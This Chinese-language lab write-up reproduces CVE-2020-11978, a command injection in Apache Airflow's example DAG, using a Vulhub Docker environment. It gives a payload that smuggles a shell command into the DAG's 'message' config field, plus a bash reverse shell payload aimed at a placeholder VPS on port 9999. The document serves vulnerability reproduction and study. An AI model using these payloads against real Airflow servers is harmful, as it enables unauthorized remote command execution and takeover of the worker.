

# Apache Airflow 示例DAG中的命令注入 CVE-2020-11978

## 漏洞描述

Apache Airflow是一款开源的分布式任务调度框架，通过DAG（Directed acyclic graph 有向无环图）来管理任务流程的任务调度工具，不需要知道业务数据的具体内容，设置任务的依赖关系即可实现任务调度。

在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx
- https://github.com/pberba/CVE-2020-11978

## 环境搭建

Vulhub依次执行如下命令启动Apache Airflow 1.10.10：

```
#初始化数据库
docker-compose run airflow-init

#启动服务
docker-compose up -d
```

服务器启动后，访问`http://your-ip:8080/admin/airflow/login`即可查看到登录页面。

## 漏洞复现

访问`http://your-ip:8080/admin/airflow/login`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：



再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：


等几秒可以看到执行成功：


到CeleryWorker容器中进行查看：

```
docker-compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：


### 反弹shell

相同方法执行反弹shell：

```
{"message":"'\";bash -i >& /dev/tcp/your-vps-ip/9999 0>&1;#"}
```


